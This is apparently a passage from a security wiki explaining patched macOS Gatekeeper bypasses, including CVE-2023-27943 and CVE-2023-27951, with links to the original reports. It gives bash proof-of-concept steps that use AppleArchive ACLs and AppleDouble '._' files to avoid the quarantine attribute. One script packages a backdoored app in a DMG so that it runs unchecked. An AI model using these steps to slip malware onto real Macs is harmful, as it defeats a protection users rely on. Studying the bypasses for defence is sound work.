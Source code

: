 Check the [**original report**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) for more information.

Note that this could also be be exploited with AppleArchives:

```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```

### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

It was discovered that **Google Chrome wasn't setting the quarantine attribute** to downloaded files because of some macOS internal problems.

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

AppleDouble file formats store the attributes of a file in a separate file starting by `._`, this helps to copy dile attributes **across macOS machines**. However, it was noticed that after decompressing an AppleDouble file, the file starting with `._` **wasn't given the quarantine attribute**.

```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```

Being able to create a file that won't have the quarantine attribute set, it was **possible to bypass Gatekeeper.** The trick was to **create a DMG file application** using the AppleDouble name convention (start it with `._`) and create a **visible file as a sym link to this hidden** file without the quarantine attribute.\
When the **dmg file is executed**, as it doesn't have a quarantine attribute it'll **bypass Gatekeeper**.

```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```
